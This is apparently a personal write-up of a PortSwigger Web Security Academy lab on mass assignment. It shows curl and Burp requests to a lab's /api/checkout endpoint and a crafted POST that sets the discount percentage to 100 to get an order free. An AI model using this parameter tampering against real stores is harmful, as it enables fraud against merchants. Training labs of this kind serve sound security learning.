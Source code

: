 [Lab](https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability)

---

When I go on `/api`, I can see some information on the api

![[Screenshot_2024-07-22_15-46-45.png]]

###### Request
Curl
```Shell
curl --cookie "session=6xXBXlv7kslQJYIY9rW5umxoP3Z4ACqv" -X GET 'https://0a40005e039d85e383191ef200a90051.web-security-academy.net/api/checkout'
```
Burp
```http
GET /api/checkout HTTP/2
Host: 0a40005e039d85e383191ef200a90051.web-security-academy.net
Cookie: session=6xXBXlv7kslQJYIY9rW5umxoP3Z4ACqv
```

###### Response
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 57

{"chosen_discount":{"percentage":0},"chosen_products":[]}
```

By doing action on the website, I was able to get a json with interresting values
###### Request
```http
GET /api/checkout HTTP/2
Host: 0a40005e039d85e383191ef200a90051.web-security-academy.net
Cookie: session=EY0GLmnIUQJiy1CQyIt7VJ2IDV47SMpN
```

###### Response
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 141

{
	"chosen_discount":{
		"percentage":0
	},"chosen_products":[
		{
			"product_id":"4",
			"name":"Beat the Vacation Traffic",
			"quantity":4,
			"item_price":2806
		}
	]
}
```

I could use the `POST` allowed method to set the discord percentage to 100 and get my order for free

###### Request
```http
POST /api/checkout HTTP/2
Host: 0a40005e039d85e383191ef200a90051.web-security-academy.net
Cookie: session=EY0GLmnIUQJiy1CQyIt7VJ2IDV47SMpN
Content-Type: application/json
Content-Length: 148

{"chosen_discount": {"percentage":100},"chosen_products":[{"product_id":"4","name":"Beat the Vacation Traffic","quantity":4,"item_price":2806}]}
```
###### Response
```http
HTTP/2 201 Created
Location: /cart?err=NOT_LOGGED_IN
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
